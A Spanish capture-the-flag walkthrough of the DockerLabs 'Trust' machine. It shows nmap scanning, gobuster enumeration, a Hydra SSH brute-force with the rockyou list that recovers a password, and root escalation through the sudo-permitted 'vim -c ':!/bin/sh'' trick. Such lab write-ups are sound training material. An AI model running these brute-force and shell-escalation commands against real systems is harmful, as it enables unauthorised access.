 # MÁQUINA TRUST DOCKERLABS

**Web:** https://dockerlabs.es

**Dificultad:** Muy fácil

**Creador:** El Pingüino de Mario

**IP:** 172.17.0.2

## Procedimiento Inicial

Descargamos el laboratorio y lo extraemos en una carpeta, en mi caso se llama trust.

![Trust lab pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/trustlabpic.png)

## Ejecución del lab
Para ejecutar el lab tenemos que poner en la consola 
> sudo bash autodeploy.sh trust.tar

Una vez hecho esto nos dará la ip de la máquina que vamos a atacar. En mi caso es la 172.17.0.2

## Comprobación de ping
Vamos a comprobar si hacemos ping con la máquina.
Para ello ponemos "ping -c1 172.17.0.2"
> -c1: envía solo un paquete a la ip indicada.

![Ping pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/ping.png)

## Escaneo de Puertos
Ya que tenemos conecitividad con la máquina vamos a escanear los puertos abiertos de la máquina, primero tenemos que ser root "sudo su".
Para escanear los puertos abiertos podemos usar el comando 
> nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2

Yo lo voy a hacer una tool creada por mi, "m0PortScanner".
Voy a mostrar ambos procesos.

**Con Nmap:**

![Nmap pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/nmap.png)

**Con m0PortScanner:**

![m0PortScanner pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/m0PortScanner.png)

Vemos que estan abiertos los puertos 22 **SSH** y 80 **HTTP**

## Vistazo a la Web
Echamos un vistazo a la web que hay montada con la ip 172.17.0.2 y vemos que es la pagina por defecto de apache.

![Web pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/web.png)

## Enumeración web con Gobuster

Vamos a usar la herramienta **Gobuster** para hacer un reconocimiento de la web y asi poder ver los directorios de la misma.
Para ello vamos a necesitar una **wordlist**, la que usaré yo va a ser 
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/discovery/directory_list_lowercase_2.3_medium.txt

Para hacer el reconocimiento usaremos el comando 
> gobuster dir -u http://172.17.0.2 -w /home/mescu/Worldlists/directory_list_lowercase_2.3_medium.txt -x .php, .html, .py, .txt

Vemos que cuando acaba el reconocimiento descubre un directorio llamado secret.php,.

![Gobuster pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/gobuster.png)

Si accedemos a ese directorio vemos que aparece un posible usuario llamado "Mario"

![Mario pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/mario.png)

## Fuerza Bruta con Hydra

Vamos a hacer un ataque de fuerza bruta al protocolo ssh usando Hydra y la famosa wordlist "rockyou".
Ponemos el comando
> hydra -l mario -P /home/mescu/wordlists/rockyou.txt ssh://172.17.0.2

![Hydra pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/hydra.png)

Vemos que existe el usuario "mario" y que su contraseña es "chocolate".

## Conexión con SSH

Vamos a intentar conectarnos por ssh con el usr y la pass que hemos obtenido.
> ssh mario@172.17.0.2

![SSH pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/ssh.png)

Y nos conectamos exitosamente.

## Escalada de Privilegios
Vamos a ver si mario tiene permisos para ejecutar algun archivo. 
Para ello usamos el comando
> sudo -l

![sudo -l  pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/sudo-l.png)

Y vemos que tiene permisos de ejecucion como sudo en el binario "vim".
Por lo que vamos a entrar en https://gtfobins.github.io/ y buscamos "vim".

Vemos que podemos escalar privilegios con el comando
> sudo vim -c ':!/bin/sh'

Así que lo introducimos y hacemos un whoami.

![root pic](https://github.com/mescu/Dockerlabs/blob/main/trust/images/root.png)

Y ya somos **root**

-----------

**Mario Escudero Blanco**
